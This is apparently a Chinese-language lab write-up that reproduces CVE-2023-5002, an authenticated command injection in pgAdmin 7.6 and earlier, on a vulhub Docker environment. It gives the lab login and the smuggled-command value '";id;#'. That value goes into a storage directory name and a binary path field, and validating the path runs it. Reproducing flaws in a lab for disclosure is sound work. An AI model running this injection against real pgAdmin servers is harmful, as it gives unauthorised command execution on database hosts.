 # CVE-2023-5002

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** PgAdmin 后台远程命令执行漏洞



# 0x01 产品介绍

PgAdmin是一个著名的PostgreSQL数据库管理平台。

# 0x02 影响范围

PgAdmin <= 7.6

# 0x03 环境搭建

使用vulhub环境

```javascript
docker compose up -d
```

 ![](image/c69f1178-8828-470e-a3ad-97ae8984b9fc.png)

# 0x04 漏洞复现

登录PgAdmin。

```javascript
账号：vulhub@example.com
密码：vulhub
```

选择“Tools -> Storage Manager”打开文件管理器：

 ![](image/1753fe09-d0df-475e-8b8a-88b147a4b782.png)

创建一个新的目录，名字是我们的Payload 

```javascript
";id;#
```

 ![](image/0579b4bc-2a5b-43f5-b0f8-da8067dde3cc.png)这个目录的完整路径是`/var/lib/pgadmin/storage/vulhub_example.com/";id;#`，我们后续就需要使用这个路径来利用漏洞。

选择“File -> Preferences”打开设置页面，并来到“Paths -> Binary paths”面板。在任意一个“PostgreSQL Binary Path”文本框中填入

```javascript
/var/lib/pgadmin/storage/vulhub_example.com/";id;#
```

并点击右侧的“验证”按钮

 ![](image/a9612770-0ef4-4622-9d15-4324899ba811.png)

发现执行成功！

 ![](image/6b8e2af6-2ddb-4f2d-a2f6-239b60913a54.png)